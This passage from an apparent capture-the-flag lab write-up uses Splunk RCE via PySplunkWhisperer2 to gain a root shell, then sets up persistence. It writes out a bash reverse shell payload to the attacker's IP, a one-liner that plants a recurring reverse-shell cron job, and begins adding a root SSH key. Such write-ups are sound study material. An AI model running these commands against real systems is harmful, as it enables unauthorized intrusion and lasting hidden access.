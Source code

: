 -   **Quick POC to verify RCE**:
    -   I stand up a quick python web-server and have SplunkWhisperer curl it to verify that we can infact run commands on the host &amp; we can.
        -   {{< figure src="/ox-hugo/2024-12-21-071902_.png" >}}

-   **Getting our reverse root shell**:
    ```shell
    python3 PySplunkWhisperer2_remote.py --host $box --lhost 10.10.14.80 --username $user --password $pass --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.80/9967 0>&1'"
    ```
-   {{< figure src="/ox-hugo/2024-12-21-073555_.png" >}}

-   **Lets get the root flag**:
    -   {{< figure src="/ox-hugo/2024-12-21-073801_.png" >}}


## 4. Persistence: {#4-dot-persistence}

-   As a means to ensure persistence on this machine I will create and add an SSH key as we know that service is running. I will also add a cronjob that calls back out to my attack machine at a set interval.


### Persistence Method 1: Creating a cron job reverse shell: {#persistence-method-1-creating-a-cron-job-reverse-shell}

```shell
(crontab -l > .tab ; echo "* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.80/80 0>&1'" >> .tab ; crontab .tab ; rm .tab) > /dev/null 2>&1
```

-   {{< figure src="/ox-hugo/2024-12-21-075648_.png" >}}

-   Let's verify it's in the crontab by running `crontab -l`
    -   {{< figure src="/ox-hugo/2024-12-21-075743_.png" >}}
    -   As we can see it's running.

-   I start my listener and get a connection back after 1 minute.
    -   {{< figure src="/ox-hugo/2024-12-21-075844_.png" >}}

-   +Note+: This is great as a means to call back out to our attack machine, however an interval of every 1 minute is excessive, it would typically be better to set it at longer intervals to re-connect.


### Persistence Method 2: Adding an SSH key: {#persistence-method-2-adding-an-ssh-key}

-   So typically what we could do is make a new user, however I am going to generate a key for the root user we already have access too.



-   **Generate SSH Key for the User**:
    ```shell
    ssh-keygen -t rsa -b 4096
    ```
